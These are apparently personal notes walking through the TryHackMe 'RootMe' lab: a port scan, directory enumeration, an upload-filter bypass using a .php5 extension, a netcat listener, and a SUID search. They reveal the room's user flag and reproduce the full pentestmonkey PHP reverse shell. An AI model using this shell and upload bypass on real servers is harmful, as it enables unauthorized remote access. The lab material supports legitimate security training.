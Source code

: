 # RootMe Notes

Great writeup: https://beginninghacking.net/2020/09/09/try-hack-me-rootme/

1. Scan ports with nmap: "sudo nmap -sS -A <target ip address>"
- 2 ports open: 80 and 22, apache 2.4.29 and ssh respectively

2. Find hidden directories (GoBuster recommended, but I used dirb) (make sure to use http, as the webpage uses http): "dirb http://<target ip address>"
> -----------------
>DIRB v2.22    
>By The Dark Raver
>-----------------
>
>START_TIME: Sat Nov 20 04:24:35 2021
>URL_BASE: http://10.10.154.79/
>WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
>
>-----------------
>
>GENERATED WORDS: 4612                                                          
>
>---- Scanning URL: http://10.10.154.79/ ----
>==> DIRECTORY: http://10.10.154.79/css/                                                                                                                                                 
>+ http://10.10.154.79/index.php (CODE:200|SIZE:616)                                                                                                                                     
>==> DIRECTORY: http://10.10.154.79/js/                                                                                                                                                  
>==> DIRECTORY: http://10.10.154.79/panel/                                                                                                                                               
>+ http://10.10.154.79/server-status (CODE:403|SIZE:277)                                                                                                                                 
>==> DIRECTORY: http://10.10.154.79/uploads/                                                                                                                                             
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/css/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/js/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/panel/ ----
>+ http://10.10.154.79/panel/index.php (CODE:200|SIZE:732)                                                                                                                               
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/uploads/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                               
>-----------------
>END_TIME: Sat Nov 20 04:24:47 2021
>DOWNLOADED: 9224 - FOUND: 3
- Hidden directory is '/panel/'

3. We can upload a payload and get a reverse shell. Save this payload to a file, change the port and ip to your machine's ip address and a port that's not being used.

><?php
>// php-reverse-shell - A Reverse Shell implementation in PHP
>// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
>//
>// This tool may be used for legal purposes only.  Users take full responsibility
>// for any actions performed using this tool.  The author accepts no liability
>// for damage caused by this tool.  If these terms are not acceptable to you, then
>// do not use this tool.
>//
>// In all other respects the GPL version 2 applies:
>//
>// This program is free software; you can redistribute it and/or modify
>// it under the terms of the GNU General Public License version 2 as
>// published by the Free Software Foundation.
>//
>// This program is distributed in the hope that it will be useful,
>// but WITHOUT ANY WARRANTY; without even the implied warranty of
>// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
>// GNU General Public License for more details.
>//
>// You should have received a copy of the GNU General Public License along
>// with this program; if not, write to the Free Software Foundation, Inc.,
>// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
>//
>// This tool may be used for legal purposes only.  Users take full responsibility
>// for any actions performed using this tool.  If these terms are not acceptable to
>// you, then do not use this tool.
>//
>// You are encouraged to send comments, improvements or suggestions to
>// me at pentestmonkey@pentestmonkey.net
>//
>// Description
>// -----------
>// This script will make an outbound TCP connection to a hardcoded IP and port.
>// The recipient will be given a shell running as the current user (apache normally).
>//
>// Limitations
>// -----------
>// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
>// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
>// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
>//
>// Usage
>// -----
>// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
>
>set_time_limit (0);
>$VERSION = "1.0";
>$ip = '127.0.0.1';  // CHANGE THIS
>$port = 1234;       // CHANGE THIS
>$chunk_size = 1400;
>$write_a = null;
>$error_a = null;
>$shell = 'uname -a; w; id; /bin/sh -i';
>$daemon = 0;
>$debug = 0;
>
>//
>// Daemonise ourself if possible to avoid zombies later
>//
>
>// pcntl_fork is hardly ever available, but will allow us to daemonise
>// our php process and avoid zombies.  Worth a try...
>if (function_exists('pcntl_fork')) {
>	// Fork and have the parent process exit
>	$pid = pcntl_fork();
>	
>	if ($pid == -1) {
>		printit("ERROR: Can't fork");
>		exit(1);
>	}
>	
>	if ($pid) {
>		exit(0);  // Parent exits
>	}
>
>	// Make the current process a session leader
>	// Will only succeed if we forked
>	if (posix_setsid() == -1) {
>		printit("Error: Can't setsid()");
>		exit(1);
>	}
>
>	$daemon = 1;
>} else {
>	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
>}
>
>// Change to a safe directory
>chdir("/");
>
>// Remove any umask we inherited
>umask(0);
>
>//
>// Do the reverse shell...
>//
>
>// Open reverse connection
>$sock = fsockopen($ip, $port, $errno, $errstr, 30);
>if (!$sock) {
>	printit("$errstr ($errno)");
>	exit(1);
>}
>
>// Spawn shell process
>$descriptorspec = array(
>   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
>   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
>   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
>);
>
>$process = proc_open($shell, $descriptorspec, $pipes);
>
>if (!is_resource($process)) {
>	printit("ERROR: Can't spawn shell");
>	exit(1);
>}
>
>// Set everything to non-blocking
>// Reason: Occsionally reads will block, even though stream_select tells us they won't
>stream_set_blocking($pipes[0], 0);
>stream_set_blocking($pipes[1], 0);
>stream_set_blocking($pipes[2], 0);
>stream_set_blocking($sock, 0);
>
>printit("Successfully opened reverse shell to $ip:$port");
>
>while (1) {
>	// Check for end of TCP connection
>	if (feof($sock)) {
>		printit("ERROR: Shell connection terminated");
>		break;
>	}
>
>	// Check for end of STDOUT
>	if (feof($pipes[1])) {
>		printit("ERROR: Shell process terminated");
>		break;
>	}
>
>	// Wait until a command is end down $sock, or some
>	// command output is available on STDOUT or STDERR
>	$read_a = array($sock, $pipes[1], $pipes[2]);
>	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
>
>	// If we can read from the TCP socket, send
>	// data to process's STDIN
>	if (in_array($sock, $read_a)) {
>		if ($debug) printit("SOCK READ");
>		$input = fread($sock, $chunk_size);
>		if ($debug) printit("SOCK: $input");
>		fwrite($pipes[0], $input);
>	}
>
>	// If we can read from the process's STDOUT
>	// send data down tcp connection
>	if (in_array($pipes[1], $read_a)) {
>		if ($debug) printit("STDOUT READ");
>		$input = fread($pipes[1], $chunk_size);
>		if ($debug) printit("STDOUT: $input");
>		fwrite($sock, $input);
>	}
>
>	// If we can read from the process's STDERR
>	// send data down tcp connection
>	if (in_array($pipes[2], $read_a)) {
>		if ($debug) printit("STDERR READ");
>		$input = fread($pipes[2], $chunk_size);
>		if ($debug) printit("STDERR: $input");
>		fwrite($sock, $input);
>	}
>}
>
>fclose($sock);
>fclose($pipes[0]);
>fclose($pipes[1]);
>fclose($pipes[2]);
>proc_close($process);
>
>// Like print, but does nothing if we've daemonised ourself
>// (I can't figure out how to redirect STDOUT like a proper daemon)
>function printit ($string) {
>	if (!$daemon) {
>		print "$string\n";
>	}
>}
>
>?> 
>
>

4. If we save this as a .php file and try to upload it, we find that we're allowed to upload .php files. There are several ways of bypassing this, but the easiest way is to just change the file extension so that it'll get accepted into the server and so that it'll run when we try to run it. For example, payload.jpg won't work because the .jpg won't run. So we bypass it by simple changing the extension to .php5, which is another version of php that is not blocked by the server. After uploading, go to "<target ip address>/uploads" - which we found earlier with dirb - and make sure that the file has been uploaded

5. Now we set up nc to listen to the port we programmed the script to connect to: "nc -nlvp <port>"

6. Finally, we run the script on the web server with curl: "curl <target ip address>/uploads/<script name>", and we should now have access to the server through netcat

7. We're given the name of the file that contains the flag "user.txt", so we simple use the find command: "find / -type f -name user.txt" and we see that the file is at /var/www/user.txt and when we cat it we find that the flag is THM{y0u_g0t_a_sh3ll}

8. Now we need to escalate our privileges to root. We're asked to search for files with the suid permission set - which lets any user execute the file with the permissions of the owner of the file - and find any files that are supicious. To do this we use find again: "find / -perm /4000 2> /dev/null" (we use "2> /dev/null" to get rid of any errors, such as permission errors for files we're not able to access)
